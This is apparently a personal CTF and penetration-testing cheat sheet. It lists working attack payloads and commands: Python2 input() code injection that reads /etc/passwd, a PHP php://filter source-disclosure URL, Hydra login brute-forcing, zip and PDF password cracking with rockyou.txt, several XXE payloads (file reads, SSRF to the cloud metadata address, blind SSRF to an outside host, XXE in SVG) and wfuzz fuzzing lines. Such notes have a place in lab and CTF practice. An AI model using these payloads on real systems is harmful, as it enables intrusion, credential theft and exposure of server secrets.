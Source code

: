 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly


## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash  ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```

## Bruteforce/fuzzing

### wfuzz

#### hide 404
`./wfuzz -w wordlist/general/big.txt --hc 404 http://xxxxxxxxzxzx.zxz/FUZZ`
#### parameters
`./wfuzz -w wordlist/general/megabeast.txt --hh 24 http://xxxxx.zxv/api/action.php?FUZZ=1`
#### numericals
`./wfuzz -z range,0-10000 --hh 27 http://xxxxxx.xxx/api/action.php?reset=FUZZ`
### data
`./wfuzz -w wordlist/general/big.txt -d "FUZZ=1" http://xxxxx.xxx/api/action.php`


## Reversing

Dealing with stripped binaries https://reverseengineering.stackexchange.com/questions/1935/how-to-handle-stripped-binaries-with-gdb-no-source-no-symbols-and-gdb-only-sho

## sudo
if you got something juicy in sudo -l , but still cant read get the command to work, try impersonating another user with -u
